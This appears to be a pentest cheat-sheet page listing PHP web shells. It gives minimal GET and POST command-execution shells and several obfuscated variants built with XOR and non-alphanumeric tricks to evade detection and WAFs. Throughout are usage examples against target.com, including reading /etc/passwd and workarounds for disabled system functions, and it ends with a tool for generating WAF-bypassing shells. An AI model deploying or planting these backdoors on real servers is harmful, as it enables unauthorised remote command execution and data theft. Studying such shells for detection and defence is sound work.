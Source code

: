 ```yaml
---
description: Several list of simple and obfuscate PHP shell
---
```


# Simple PHP Webshell

### Simple PHP Webshell

#### Simple HTTP Requests GET Method Shell

```
<?=`$_GET[0]`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
```

#### Simple HTTP Requests POST Method Shell

```
<?=`$_POST[0]`?>

[*] Usage: curl -X POST http://target.com/path/to/shell.php -d "0=command"
```

#### Support GET and POST Requests Method

```
<?=`{$_REQUEST['_']}`?>

[*] Usage:
 - http://target.com/path/to/shell.php?_=command
 - curl -X POST http://target.com/path/to/shell.php -d "_=command"
```

## Simple Obfuscated PHP Web Shell

#### Obfuscated PHP Web shell Example

```
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
[*] Note: This is obfuscation of <?=`$_GET[0]`?>
```

#### Non-alphanumeric obfuscation PHP Web Shell

```
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>

[*] Usage: http://target.com/path/to/shell.php?_=function&__=argument
[*] E.g.: http://target.com/path/to/shell.php?_=system&__=ls
```

#### Another Example Obfuscation of Simple PHP Webshell

```
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.:
    - http://target.com/path/to/shell.php?0=var_dump&1=scandir&2=.
    - http://target.com/path/to/shell.php?0=print_r&1=file_get_contents&2=/etc/passwd
```

#### Without Space Obfuscation PHP Web Shell

```
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]);?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]($_[2]));?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.: http://target.com/path/to/shell.php?0=print_r&1=glob&2=*
```

#### Without Space and Non-alphanumeric Obfuscation PHP Web Shell

```
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']);?>

[*] Usage: http://target.com/path/to/shell.php?__=function&___=argument
[*] E.g.: http://target.com/path/to/shell.php?__=system&___=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']($_['____']));?>

[*] Usage: http://target.com/path/to/shell.php?__=function1&___=function2&____=argument
[*] E.g.: http://target.com/path/to/shell.php?__=var_dump&___=scandir&____=/
```

### XOR Shell

Encoder PHP webshell to bypass WAF using XOR operations.

```bash
git clone https://github.com/GgBoom-993/xorshell
cd xorshell/
python3 xorshell.py -m GET -p cmd -o asuka.php

### access
http://localhost:8000/asuka.php?cmd=system('id');
```

### Reference

* [https://github.com/bayufedra/Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell)
* [https://github.com/lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF)
